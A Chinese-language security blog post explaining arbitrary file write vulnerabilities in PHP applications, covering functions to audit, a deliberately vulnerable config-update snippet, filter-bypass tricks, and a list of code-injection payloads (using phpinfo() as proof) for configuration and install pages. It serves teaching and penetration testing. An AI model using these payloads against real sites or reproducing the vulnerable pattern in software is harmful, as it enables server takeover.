 ```yaml
---
layout: post
title:  "深入理解任意文件写入漏洞"
categories: Web安全
tags: 任意文件写入 
author: 0e0w
---
```


* content
{:toc}
这是一篇关于任意文件写入漏洞的文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年4月10日。
> 任意文件写入不同与文件上传漏洞，有些人也称之为是命令执行漏洞。漏洞出现的原因经常是在后台的一些配置文件修改编辑等处，程序开发过程中将这些配置信息未做好过滤保存到了文件中，用户可以在文件中写入任意的内容，导致漏洞产生。

## 0x01 概述

任意文件写入可以直接Getshell，危害很大。但在渗透测试中，往往出现在Cms中。不进行代码审计的情况下，较难直接获取权限，因为无法判断写入到了那个文件中，但也有例外的情况。关于任意文件写入漏洞，有三个前提条件：

- 文件写入函数的参数用户可控；
- 可控参数没有做好过滤；
- 写入的文件类型为可执行文件。

## 0x02 代码审计

任意文件写入漏洞代码审计思路：寻找文件写入或文件保存等相关函数，查看函数中变量用户是否可控，是否进行了过滤处理，是否保存到了可执行文件中。一般采用代码审计工具可以很好的找出此类漏洞，对于误报情况较大的情况，只需要人工去逐个分析排查即可。

### 一、PHP文件写入

**相关函数**

- fopen() 创建文件，打开文件或URL。

  ```php
  $file = fopen("admin.php", "w")
  ```

- fwrite() 写入文件

  ```php
  fwrite($file, $str)
  ```

- file_put_contents() 把字符串写入文件

  ```php
  file_put_contents("admin.php","<?PHP phpinfo();?>");
  ```

- fputcsv() 将行数据格式化为CSV格式并写入文件

- fputs() 将字符串写入文件

- socket_write() 写一个 Socket

- session_write_close() 向Session中写入数据并终止Session

- ftp_nb_get() 从FTP服务器上获取文件并写入本地文件

- imagefttext() 使用FreeType2字体将文本写入图像

- imagettftext() 用TrueType字体向图像写入文本

### 二、Java文件写入

**相关函数**

- FileWriter()
- BufferedWriter()

### 三、基础绕过方法

没有任何过滤直接将字符串写入文件的情况还是比较少的。有一部分漏洞是已经对参数做了过滤，但是没有完美过滤，导致使用某些技巧可言绕过。

- 利用换行符来绕过正则匹配。

  ```php
  <?php
  $api = addslashes($_GET['api']);
  $file = file_get_contents('./option.php');
  $file = preg_replace("/\\\$API = '.*';/", "\$API = '{$api}';", $file);
  file_put_contents('./option.php', $file);
  ```

  - update.php?api=aaaaa%27;%0aphpinfo();//
  - update.php?api=aaaaa

- 利用 preg_replace函数的问题。

- 利用 preg_replace() 第二个参数，自动转义反斜线。

- 利用正则\n|$n，将第n个子组替换到文本中

  ```php
  $a = 'aa1234aa';
  $b = preg_replace('/aa(\d+)aa/', 'bb\1bb', $a);
  echo $b;
  ```

- 多次提交进行逃逸。

## 0x03 渗透测试

在渗透测试中，可以在配置文件修改等地方插入类似的payload，查看当前页面的返回情况，或者是通过以往的经验来判断文件写入的位置。很多情况下，配置文件也并非是写入到了可执行文件中，而是写入到了数据库中。在渗透测试中，任意文件写入有俩种常见的情况：

- 配置文件处任意字符串写入

- 程序安装时install任意字符串写入

**常见payload**

```php
<?php phpinfo();?>
phpinfo();
";phpinfo();//
";@phpinfo();//
';phpinfo();//
‘;phpinfo();//
';@phpinfo();//
\',@phpinfo(),//',
\';phpinfo();//
aaa';phpinfo();%0a//
';%0aphpinfo();//
;phpinfo();
\%27;%0aphpinfo();%23
\%27;%0aphpinfo();//
\%27);%0aphpinfo();%23
\%27);phpinfo();%23
';phpinfo();//
");phpinfo();//
```

## 0x04 典型案例

出现过任意文件写入漏洞的程序。

- phpcms 
- SeaCms
- Discuz 
- 74cms
- dedecms
- 致远OA v8任意文件写入

## 0x05 漏洞修复

- 尽量避免在可执行文件中保存字符串内容。
- 对写入的字符串进行完美的过滤。

## 0x06 参考链接

- https://www.leavesongs.com/PENETRATION/thinking-about-config-file-arbitrary-write.html
- http://suo.im/5VUqhn
- https://blog.csdn.net/Ca3tie1/article/details/104830356